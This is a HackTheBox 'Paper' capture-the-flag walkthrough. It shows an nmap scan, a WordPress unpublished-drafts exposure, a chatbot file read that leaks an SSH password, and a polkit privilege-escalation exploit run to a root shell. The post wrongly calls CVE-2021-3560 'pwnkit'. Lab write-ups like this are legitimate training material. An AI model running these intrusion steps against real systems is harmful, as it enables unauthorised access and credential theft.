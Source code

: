 ```yaml
---
title: Paper writeup
date: 2022-06-27 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "wordpress"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/paper/
image: # Thumbnail 
  src: Paper.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This was an interesting box which was centered around a new exploit which was recently disclosed at the time of the release. Enumeration of the server headers was needed to get to a worpress site, which contained a vulnerability that allows us to read unpublished drafts. These drafts contain a link to a chat application, where we can exploit a chatbot into getting access to a file containing crdentials.
## Foothold
Let's start out with an nmap port scan: 
```console
# Nmap 7.92 scan initiated Sat Feb 12 16:34:12 2022 as: nmap -sC -sV -p- -o nmap/full.txt -Pn 10.129.139.201
Nmap scan report for 10.129.139.201
Host is up (0.093s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 12 16:34:39 2022 -- 1 IP address (1 host up) scanned in 27.18 seconds
```
The system has 3 ports open, 22, 80 and 443. If we access the site hosted on the system we are greeted with a standard centOS welcome page

![](welcome1.png)

If we take a look at the response we receive from the server when trying to access the site, we see a header named `x-backend-server`.

![](burp.png)

It contains the domain of another application that we can also access after we add it to our hosts file. When accessing `office.paper`, we are greeted with a Wordpress site which is made to resemble the website of a famous paper company.

![](welcome2.png)

If we take a look at one of the posts, one user is saying that the drafts feature is insecure. 

![](post.png)

The Wappalyzer plug-in tells us that the version of Wordpress is `5.2.3`. Searching for vulnerabilities in this version gives us [this](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2) which allows us to view private and unpiblished drafts. If we go to `http://office.paper/?static=1` we see all the private drafts on the site. The drafts include a registration link for a chat platform: `http://chat.office.paper/register/8qozr226AhkCHZdyY`. We add the domain to our hosts file and register our user. When we enter the chat room we see that somebody has added a chatbot which supports a lot of features including dm's. 

![](bot.png)

When we chat with the bot we discover that we can access local files on the system

![](lfi.png)

We can use this to access the `.env` file of the chatbot, which contains the password of the `dwight` user. (We can figure this out based on the fact that the bot is running in his home directory)

![](password.png)

We can use the credentials `dwight:Queenofblad3s!23` to login via ssh.

![](ssh.png) 

## Privilege escalation
Once we have access as dwight, we run linpeas to see if any interesting is on the system. 

```console
---SNIP---
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.29                                                                                                                                                                                                                         

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560   
---SNIP---
```
As we can see linpeas tells us the system is vulnerable to CVE-2021-3560, also known as pwnkit. Exploiting this is trivial, we simply duse one of multiple POC's found on the internet. For example [this](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) one.

```
[dwight@paper ~]$ ./pwnkit.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]# 
```
Rooted